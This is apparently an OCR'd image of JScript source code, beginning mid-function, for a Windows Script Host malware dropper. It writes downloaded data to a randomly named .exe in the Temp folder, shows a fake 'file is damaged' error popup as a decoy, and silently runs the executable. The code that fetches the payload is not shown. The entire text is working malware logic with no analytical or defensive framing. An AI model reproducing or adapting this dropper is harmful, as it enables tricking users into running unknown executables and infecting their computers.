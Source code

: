 ```javascript
                                });
                            }
                        });
                    }
                });
            }
        });
    } catch (error) {
        return callback(null, true);
    }
}

function getTempFilePath() {
    try {
        var fs = new ActiveXObject("Scripting.FileSystemObject");
        var tmpFileName = "\\" + Math.random().toString(36).substr(2, 9) + ".exe";
        var tmpFilePath = fs.GetSpecialFolder(2) + tmpFileName;
        return tmpFilePath;
    } catch (error) {
        return false;
    }
}

function saveToTemp(data, callback) {
    try {
        var path = getTempFilePath();
        if (path) {
            var objStream = new ActiveXObject("ADODB.Stream");
            objStream.Open();
            objStream.Type = 1;
            objStream.Write(data);
            objStream.Position = 0;
            objStream.SaveToFile(path, 2);
            objStream.Close();
            return callback(path, false);
        } else {
            return callback(null, true);
        }
    } catch (error) {
        return callback(null, true);
    }
}
getData(function(data, error) {
    WshShell = WScript.CreateObject("WScript.Shell");
    Text = "There was an error opening this document. The file is damaged and could not be repaired (for example, it was sent as an email attachment and was not correctly decoded).";
    Title = "Not Supported File Format";
    Res = WshShell.Popup(Text, 0, Title, 0 + 64);
    if (!error) {
        saveToTemp(data, function(path, error) {
            if (!error) {
                try {
                    var wsh = new ActiveXObject("WScript.Shell");
                    wsh.Run(path);
                } catch (error) {}
            }
        });
    }
});
```
